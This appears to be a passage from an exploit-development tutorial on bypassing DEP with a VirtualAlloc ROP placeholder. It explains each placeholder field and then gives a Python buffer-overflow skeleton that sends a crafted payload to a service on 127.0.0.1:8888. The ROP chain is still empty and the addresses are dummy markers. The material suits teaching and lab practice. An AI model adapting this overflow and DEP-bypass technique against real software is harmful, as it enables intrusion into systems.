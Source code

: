 2. Here we'll put our Return Address
virtual_alloc_placeholder += pack("<L", (0x46464646)) # Shellcode Retrun Addres

3. Here we'll put our Return Address (again)
virtual_alloc_placeholder += pack("<L", (0x47474747)) # Shellcode Address

4. Here is going to be the dwSize, which is equal to 00000001
virtual_alloc_placeholder += pack("<L", (0x48484848)) # dwSize

5. flAllocationType - 00001000
virtual_alloc_placeholder += pack("<L", (0x49494949)) # flAllocationType

6. Last one is the flProtect - 00000040
virtual_alloc_placeholder += pack("<L", (0x51515151)) # flProtect

```py
# 0x4rt3mis
# DEP Bypass
import socket
import sys
from struct import pack

total = 2500

def create_rop_chain():
        rop_gadgets = [ ]
        return ''.join(pack('<L', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()

virtual_alloc_placeholder = pack("<L", (0x45454545)) # KERNEL32!VirtuaAllocStub
virtual_alloc_placeholder += pack("<L", (0x46464646)) # Shellcode Retrun Addres
virtual_alloc_placeholder += pack("<L", (0x47474747)) # Shellcode Address
virtual_alloc_placeholder += pack("<L", (0x48484848)) # dwSize
virtual_alloc_placeholder += pack("<L", (0x49494949)) # flAllocationType
virtual_alloc_placeholder += pack("<L", (0x51515151)) # flProtect


payload = b'\x41' * (1052 - len(virtual_alloc_placeholder))
payload += virtual_alloc_placeholder
payload += pack("<L", (0x6ab2223e))  # ret
payload += rop_chain
payload += b'\x90' * 10
	
target = b'127.0.0.1'

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(payload)
except:
	print "Crashed!"
```
